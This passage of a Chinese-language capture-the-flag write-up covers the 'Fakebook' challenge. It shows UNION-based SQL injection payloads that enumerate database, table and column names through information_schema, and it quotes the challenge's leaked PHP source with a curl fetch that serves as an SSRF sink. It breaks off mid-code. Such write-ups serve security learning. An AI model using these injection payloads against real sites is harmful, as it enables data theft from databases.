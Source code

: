 ## 9.Fakebook（sql注入，ssrf）

页面有注册登录的功能，先进行登录看看有什么信息

![image-20230612094129690](https://s1.ax1x.com/2023/06/12/pCZwx6x.png)

点进username后，观察到有参数no

尝试一下sql注入

![image-20230612094151411](https://s1.ax1x.com/2023/06/12/pCZ0pnK.png)

![image-20230612094417428](https://s1.ax1x.com/2023/06/12/pCZ0ejP.png)

注入成功，回显位为第二个，得到数据库名fakebook，表名user，字段名no,username,passwd,data

这里记录一下sql语句的使用(不考虑过滤)

union select 1,database(),3,4--+

union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='fakebook'--+

union select 1,group_concat(column_name),3,4 from information_schema.columns where table_schema='fakebook' and table_name='users'--+

![image-20230612095614277](https://s1.ax1x.com/2023/06/12/pCZ0jUg.png)

发现data中的内容是序列化后的结果

据大佬wp下载/user.php.bak，得到源码

```php
<?php
class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);//执行请求
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);//curl_getinfo用于获取指定curl句柄相关的信息，
        //CURLINFO_HTTP_CODE是一个选项常量，用于指定要获取的信息（）
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
```
